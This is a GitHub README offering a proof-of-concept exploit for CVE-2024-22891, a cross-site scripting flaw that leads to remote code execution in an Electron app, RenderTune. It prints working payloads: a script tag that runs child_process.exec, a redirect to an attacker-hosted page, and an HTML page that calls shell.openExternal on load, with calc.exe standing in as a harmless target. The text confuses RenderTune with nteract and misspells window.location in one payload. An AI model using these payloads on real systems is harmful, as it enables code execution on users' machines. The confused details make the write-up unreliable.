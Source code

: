 # neteract PoC

A Proof-Of-Concept for CVE-2024-22891 vulnerability. <br><br>
A cross-site scripting (XSS) vulnerability in RenderTune v1.1.4 allows attackers to execute arbitrary web scripts or HTML via a crafted payload injected into the Upload Title parameter.
In this repository there is an example vulnerable application and proof-of-concept (POC) exploit of it.

As a PoC there is a python file that automates the process. 
---------------------------------------

#### 1.Vunerability Overview:
It is a vulnerability that enables RCE through XSS.
There is an XSS capable part of the title, so it is a vulnerability that enables RCE through the syntax of NodeJS through the syntax of XSS.

---------------------------------------

#### 2. Vulnerability Cause:
* nteract 0.28.0 allows Electron webview via Markdown link, with resultant remote code execution (because nodeIntegration in webPreferences is true).
* Exploit explain
  * When generating links through MarkDown within the application, it creates a WebView via Electron, allowing external access to the link. Consequently, an attacker can achieve Remote Code Execution (RCE) by connecting to the link leading to the attacker's server.

Proof-of-concept (POC)
----------------------
###  Case 1) XSS to RCE.
Step 1) Confirm that XSS occurs in the title part
※ At this time, the Upload item will not be registered unless the image is attached
```html
<script>alert('JRURU')</script>
```
![renderTune1](https://github.com/QnA4u/CVE/assets/131337101/4f8e44e1-a80d-4d86-bea3-2e908dc2e35b)


Step 2) Therefore, it is configured to use XSS to execute NodeJS system commands.
```html
<script>require('child_process').exec('C:/Windows/System32/calc.exe')</script>
```
![renderTune2](https://github.com/QnA4u/CVE/assets/131337101/78fbccf5-3deb-4dd4-abfe-88ce0b30e448)

### Case 2) Attacks through an attacker server
※ When you attempt an attack using window.location, you automatically go to the page you set each time you run the app.
```html
<script>window.loaction='http://[attacker IP]/[PoC.html]'</script>
```
**Note:** ※ If you want to test it quickly, create a server on the attacker's PC with the following code.
``` bash
$ python -m http.server 80
```

* PoC Code
```html
<html>
<head>
  <title>jruru Link</title>
</head>
<body>

  <!-- Run scripts using on-click properties directly to the tag -->
  <a id="jruruLink" href="#" onclick="openExternal()">jruru Link</a>

  <script>
    // Script function definition
    function openExternal() {
      try {
        const { shell } = require('electron');
        shell.openExternal('file:C:/Windows/System32/calc.exe');
      } catch(e) {
        alert('JRURU');
        alert(e);
      }
    }

    // Run script automatically when loading pages
    document.addEventListener('DOMContentLoaded', function() {
      openExternal();
    });
  </script>
</body>
</html>
```
![renderTune3](https://github.com/QnA4u/CVE/assets/131337101/a2d26c2e-4004-45d2-8b63-36702087f597)

---------------------------------------

